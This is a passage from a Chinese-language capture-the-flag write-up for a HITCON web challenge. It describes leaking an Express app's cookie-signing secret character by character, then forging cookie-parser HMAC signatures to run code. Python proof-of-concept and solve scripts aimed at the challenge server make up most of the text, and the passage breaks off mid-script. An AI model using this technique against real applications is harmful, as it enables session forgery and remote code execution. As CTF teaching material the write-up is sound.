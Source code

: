 
預期結果會出現 `2`

而稍微搜尋一下，發現基本上無論是讀檔或是執行命令的 payload 都超長ㄉ，20 byte 根本不夠用，因此需要想辦法增強控制範圍

一個想法是，可以偷偷看簽章的 secret 資料，想法看起來可行

搜尋了一下後，發現簽章的 secret 會在每次 request 的時候放到 `req.secret` 中，長度很短，因此只要向前面一樣偷出來就可以了

:::spoiler POC2
```python=
import requests

payload_demand = b"req.secret//"
payload_demand += bytes([0 for _ in range(20 - len(payload_demand))])
payload_demand = payload_demand.hex()

url = "http://localhost:5000"
res1 = requests.get(url)
cookie = res1.cookies["code"]

i = 0
while(i < len(payload_demand)):
    res = requests.get(f"{url}/random", cookies={"code":cookie})
    temp_cookie = res.cookies["code"]
    ck = temp_cookie[4:].split('.')[0]
    if(ck[-1] == payload_demand[i]):
        print(temp_cookie, payload_demand)
        cookie = temp_cookie
        i += 1

res = requests.get(f"{url}/random", cookies={"code":cookie})
secret_key = res.json()['result'].split('result = ')[1]
print(f"leaked key = {secret_key}")
```
:::

偷出來之後，接下來就是簽章了，查詢了一下 cookie-parser 使用的簽章函式庫是 cookie-signature，而其中預設參數是使用 HMAC-SHA256 加上 base64 產生而成

![](https://i.imgur.com/pEXRlCb.png)

因此依樣畫葫蘆，照著簽就可以了

以下我稍微改良做了一個互動式的 shell，以方便使用

:::spoiler solve.py
```python=
import requests
from base64 import b64encode
import hmac

payload_demand = b"req.secret//"
payload_demand += bytes([0 for _ in range(20 - len(payload_demand))])
payload_demand = payload_demand.hex()

# url = "http://localhost:5000"
url = "http://1ybm2d4s7i.rce.chal.hitconctf.com/"
res1 = requests.get(url)
cookie = res1.cookies["code"]

i = 0
while(i < len(payload_demand)):
    res = requests.get(f"{url}/random", cookies={"code":cookie})
    temp_cookie = res.cookies["code"]
    ck = temp_cookie[4:].split('.')[0]
    if(ck[-1] == payload_demand[i]):
        print(temp_cookie, payload_demand)
        cookie = temp_cookie
```